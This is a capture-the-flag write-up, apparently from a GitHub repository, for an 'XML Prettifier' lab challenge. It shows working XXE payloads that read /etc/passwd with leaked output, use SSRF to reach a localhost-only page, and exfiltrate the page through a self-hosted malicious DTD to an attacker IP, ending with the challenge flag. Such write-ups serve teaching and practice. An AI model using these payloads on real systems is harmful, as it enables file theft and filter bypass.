


# XML Prettifier

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information
to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere
on the web.

Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .

May the Packet be with you!

---

This challenge gave me a hard time. I knew what I need to do, I just couldn't figure out how exactly to do it.

This is the portal



The goal is to read **Notes** (`/notes`) which are, however, protected by the IP filter:

```
HTTP 403 Forbidden
IP filter is active, content is accessible only from localhost.
```

The first obvious choice is to try [XXE injection](https://portswigger.net/web-security/xxe). And indeed,
the web is vulnerable:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<a>&xxe;</a>

<a>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
```

So far so good. Let's try SSRF to read `/notes` and bypass IP filter:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<a>&xxe;</a>

http://localhost:50000/notes:3:2:FATAL:PARSER:ERR_NAME_REQUIRED: StartTag: invalid element name
http://localhost:50000/notes:13:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 12 and head
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 9 and html
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag meta line 8
<string>:2:9:FATAL:PARSER:ERR_UNDECLARED_ENTITY: Entity 'xxe' failed to parse
```

This kinda works. Unfortunately notes content is **not a valid XM**L, so it can't be included into our XML.

I read a few articles about XXE, looking for some way how to get around this.

- [HLOverflow / XXE-study](https://github.com/HLOverflow/XXE-study)
- [XML external entity (XXE) injection: PortSwigger](https://portswigger.net/web-security/xxe)
- [XXE - XEE - XML External Entity: HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

All the possible solutions required to host somewhere my malicious DTD. However, the server **doesn't have access to the
internet**.

## Sidetrack: Reading filesystem

I was a bit desperate and started to look for some alternatives, hoping to find something interesting on the filesystem.

List of possibly interesting files to read:

- `/etc/passwd`
- `/etc/resolv.conf`
- `/etc/hosts`
- `/etc/init.d/apache2` (not valid XML)
- `proc/self/cwd` - points to current workdir of the running process
- `proc/self/maps` - memory layout, loaded libraries, see [](maps.txt)
- `proc/net/route`

I was able to figure out this Apache + WSGI + Python based app. Located in `/opt/prettier`. Didn't help me much though
as I was unable to read any source code or the notes file directly from the disk.

## Solution: The VPN 🤦‍♂️

After all I asked for a hint, and I was told to **use my computer to host the malicious DTD**!
My machine is in VPN so the Prettifier server can access it. Of course!

Then it was easy. I used Python `http.server` module to host my malicious DTD:

```
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.200.0.26:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

Don't forget to disable/configure the firewall.

Finally, send the request:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.200.0.26:8000/malicous.dtd"> %xxe;]>
```

The request failed (`Invalid URI`) but the printed error message contains the flag:



Flag is `FLAG{GG53-5U3w-VT8F-qB31}`


